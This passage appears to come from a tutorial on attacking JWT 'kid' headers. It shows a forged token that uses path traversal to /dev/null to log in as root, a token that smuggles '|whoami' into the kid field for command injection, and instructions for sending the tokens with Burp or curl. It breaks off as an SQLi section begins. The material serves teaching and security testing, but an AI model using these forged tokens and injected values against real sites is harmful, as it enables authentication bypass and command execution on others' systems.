 `gsub` is used for substituting `=` signs with `empty space`.

`Base64.strict_encode64` is used for encoding the `newtoken` as well as `newsig`.

`Strict` means that white spaces / CR/LF are rejected at decode and CR/LF are not added at encode.

after creating the script run the script in the terminal

`$ ruby newtoken.rb`

#### Final Token

`eyJ0eXAiOiAiSldUIiwiYWxnIjogIkhTMjU2Iiwia2lkIjogIi4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uL2Rldi9udWxsIn0ueyJ1c2VyIjogInJvb3QifQ.RlRo904TG62K3+FEOltbXfitiBnBUAxepCmUkuFAf1E`

Send the forged token to the site using burp repeater, curl or simply by using inspect element and refresh.

we will get logged in as `root`.

### Command Injection in KID

Command Injection through `kid` is similar to LFI script. For Forging a root account token use the script used in LFI section. In this we will focus on `Command Injection` .

#### Token

`{typ:JWT,alg:HS256,kid:"1"}`

```bash
e3R5cDpKV1QsYWxnOkhTMjU2LGtpZDoiMSJ9Cg.eyJ1c2VyIjoiYW5hcyJ9.spzCikhspCdf6XAUci3R4EpJOH6gvZcvkDCVrkGbx7Y
```

Decode it using methods mentioned above.

#### Edited Token

`{typ:JWT,alg:HS256,kid:"1"|whoami}`

Encode it:

`e3R5cDpKV1QsYWxnOkhTMjU2LGtpZDoiMSJ8d2hvYW1pfQo`

#### Final Token

```bash
e3R5cDpKV1QsYWxnOkhTMjU2LGtpZDoiMSJ8d2hvYW1pfQo.eyJ1c2VyIjoiYW5hcyJ9.spzCikhspCdf6XAUci3R4EpJOH6gvZcvkDCVrkGbx7Y
```

Just send it to the site using burp repeater, curl or just edit the cookie using inspect element.

### SQLi in KID

SQLi in KID is very similar to `Command Injection` and `Local File Inclusion` because `KID` can also retrieve key from the databse.

let's see an example :
